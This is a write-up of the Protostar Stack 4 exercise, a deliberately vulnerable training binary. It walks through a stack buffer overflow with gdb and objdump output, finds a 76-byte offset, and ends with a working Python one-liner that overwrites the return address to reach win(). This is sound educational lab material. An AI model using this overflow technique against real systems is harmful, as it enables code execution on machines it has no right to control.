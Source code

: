 # PROTOSTAR : STACK 4
[Protostar:Stack4](https://exploit.education/protostar/stack-four/)

### **SOURCE CODE**

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

We need to overflow the **buffer** variable and somehow reach the **win()** function but there is no pointer which we can overwrite present in the code so we need to figure out the **padding** required to overwrite the **instruction pointer/eip register** which will return to the **win()** function address. *Padding is the key*.

Below is the disassembly of the **main()** function.
```
user@protostar:/opt/protostar/bin$ gdb -q stack4
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave  
0x0804841e <main+22>:   ret    
End of assembler dump.
(gdb) 
```
To find the padding i am going some trial and error procedure to find it out. Lets setup a breakpoint at **0x0804841e (ret)**. Lets provide some input of strings.

```
(gdb) b *0x0804841e
Breakpoint 1 at 0x804841e: file stack4/stack4.c, line 16.
(gdb) r
Starting program: /opt/protostar/bin/stack4 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x0804841e in main (argc=Cannot access memory at address 0x41414149
) at stack4/stack4.c:16
16      stack4/stack4.c: No such file or directory.
        in stack4/stack4.c
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0xb7eadc03 in __libc_start_main (main=Cannot access memory at address 0x41414149
) at libc-start.c:187
187     libc-start.c: No such file or directory.
        in libc-start.c
(gdb) 

```

So our **Padding = 76**, meaning 76 bytes required to overwrite the instruction pointer. Lets append the address of our **win()** function but before that lets find the address of **win()** function.
<br>
To do that :-
```
user@protostar:/opt/protostar/bin$ objdump -t stack4 | grep "win"
080483f4 g     F .text  00000014              win
```
We successfully changed the code flow by overwriting the return address of the **instruction pointer**.
```
user@protostar:/opt/protostar/bin$ (python -c "print 'A'*76 + '\xf4\x83\x04\x08'") | ./stack4
code flow successfully changed
Segmentation fault
```
